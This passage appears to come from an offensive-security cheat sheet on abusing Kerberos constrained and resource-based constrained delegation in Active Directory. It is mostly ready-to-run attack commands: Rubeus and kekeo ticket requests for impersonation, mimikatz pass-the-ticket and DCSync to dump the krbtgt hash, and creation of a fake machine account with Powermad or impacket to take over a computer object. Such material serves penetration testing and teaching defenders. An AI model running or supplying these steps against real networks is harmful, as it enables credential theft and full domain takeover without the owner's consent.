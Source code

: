 ````
.\Rubeus.exe s4u /impersonateuser:<USER> /msdsspn:cifs/<FQDN COMPUTER> /user:<COMPUTER>$ /ticket:<BASE64 TGT> /nowrap
```

#### Requesting TGT with a PC hash
```
./kekeo.exe
Tgt::ask /user:<COMPUTERNAME>$ /domain:<DOMAIN> /rc4:<HASH>
```

#### Requesting TGS
No validation for the SPN specified
```
Tgs::s4u /tgt:<kirbi file> /user:<USER> /service:<SERVICE ALLOWED TO DELEGATE/<MACHINE NAME>|ldap/<MACHINE NAME>
```

#### Using mimikatz to inject TGS ticket and executing DCsync
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"Kerberos::ptt <KIRBI FILE>"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```

### Resource Based Constrained Delegation
### Computer object takeover
- Requirements:
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - A user with write privileges over the target computer which doesn't have msds-AllowedToActOnBehalfOfOtherIdentity
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

#### Check if domain controller is atleast Windows Server 2012
```
Get-DomainController
```

#### Check if target doesn't have msds-AllowedToActOnBehalfOfOtherIdentity
```
Get-DomainComputer <COMPUTERNAME> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

#### Get access to a user or computer with SPN set
- If not already owned a user or computer with a SPN, Create a computer object!

#### Check who can add computers to the domain
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota | select-object ms-ds-machineaccountquota
```

#### Create a new computer object
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
```
Import-Module Powermad.ps1 
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
````